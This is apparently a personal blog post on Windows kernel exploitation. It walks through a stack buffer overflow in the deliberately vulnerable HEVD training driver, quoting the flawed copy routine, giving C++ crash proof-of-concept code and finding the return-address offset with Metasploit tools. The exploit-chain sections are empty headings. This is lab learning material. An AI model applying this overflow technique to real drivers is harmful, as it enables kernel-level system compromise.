 ```yaml
---
layout: post
title: Windows Kernel Exploitation Part 1 - Stack Overflows
date: 2024-08-24 11:00:00 -0500
categories: [WKE, pwn]
tags: [windows, kernel, pwn, wke]
author: oreo
dsecription: Windows Kernel Exploitation Part 1 - Stack Overflows
---
```


## Introduction
{: .mt-4 .mb-0 }

This series will highlight my experience with the HackSys Extremely Vulnerable Driver (HEVD) as I delve into learning Windows kernel exploitaiton :tada: I intentionally left out the initial steps in getting started - loading & running the driver and setting up kernel debugging - as I have already wrote an article on it [here](https://0reome1ster.github.io/posts/Windows-Kernel-Debugging). For this and future WKE posts, feel free to checkout my [WKE repo](https://github.com/0reome1ster/WKE) to see full source as opposed to code snippets! I am following a guide, <https://mdanilor.github.io/posts/hevd-0/>, to help orient myself during this first exploit so check it out!

## The Initial Crash
{: .mt-4 .mb-0 }

### Vulnerable Code
{: data-toc-skip='' .mt-4 .mb-0 }

```cpp
(...)
    ULONG KernelBuffer[BUFFER_SIZE] = { 0 };

(...)

    ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(UCHAR));

    DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
    DbgPrint("[+] UserBuffer Size: 0x%zX\n", Size);
    DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
    DbgPrint("[+] KernelBuffer Size: 0x%zX\n", sizeof(KernelBuffer));

(...)

    DbgPrint("[+] Triggering Buffer Overflow in Stack\n");

    //
    // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
    // because the developer is passing the user supplied size directly to
    // RtlCopyMemory()/memcpy() without validating if the size is greater or
    // equal to the size of KernelBuffer
    //

    RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);

(...)
```

The above comment succintly summarizes the vulnerability within `TriggerBufferOverflowStack` - the user-controlled size variable is passed to `RtlCopyMemory` (a Windows API equivalent of memcpy) without any size checks. This allows an attacker to write an arbitrary amount of data to the destination buffer `KernelBuffer`, enabling a stack buffer overflow.

> This is a stack BoF because `KernelBuffer` is allocated on the stack; it could be a heap BoF if it was allocated via APIs such as ExAllocatePool and ExAllocatePoolWithTag
{:.prompt-info} 

### PoC Snippet
{: data-toc-skip='' .mt-4 .mb-0 }
```cpp
void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	memset(buf, 'A', bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

### Triggering the BoF
{: data-toc-skip='' .mt-4 .mb-0 }

Running the exploit code, we can see we triggered a crash.

![Buffer Overflow BSoD](/assets/images/WKE/StackOverflow/StackOverflow1.png)

## Determining Offset
{: .mt-4 .mb-0 }

Since we know that it roughly takes 4096 (0x1000) bytes to trigger the BoF, we can use Metasploit Framework's `msf-pattern_create` tool to generate a unqiue paylod to quickly ascertain the offset.

![msf-pattern_create](/assets/images/WKE/StackOverflow/pattern_create.png)

```cpp
const char* pattern = "<truncated for brevity>";

void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	// memset(buf, 'A', bufSize);
	memcpy(buf, pattern, bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

> I do recognize that I could've directly passed `pattern` through the ioctl call; however, I didn't feel like changing variable names back-and-forth.
{: .prompt-info}

I recompiled my exploit binary and re-ran it on the VM to obtain the payload offset to overwrite RIP with.

![Stack BoF for offset](/assets/images/WKE/StackOverflow/StackOverflow2.png)

We can ignore the first column, `Child-SP`, and solely focus on `RetAddr`. We can see that the address it's trying to return to looks like a sequence of ASCII - 0x43, 0x32, 0x27, etc. We can extract this and paste it into another Metasploit Framework tool called `msf-pattern_offset` (very convenient naming).

![msf-pattern_offset](/assets/images/WKE/StackOverflow/pattern_offset.png)

> I added the help page because I forgot the flags and I thought it'd be good to show
{: .prompt-info}

Now that we know the offset, 2072 bytes, we can ROP our way into an Elevation of Privilege (EoP)...

## Writing Exploit Chain
{: .mt-4 .mb-0 }

### Bypassing kASLR - Leaking Kernel Base
{: .mt-4 .mb-0 }

### ROP-ing to Shellcode
{: .mt-4 .mb-0 }

### Writing Shellcode
{: .mt-4 .mb-0 }

## :balloon: Party Time :balloon:
{: .mt-4 .mb-0 }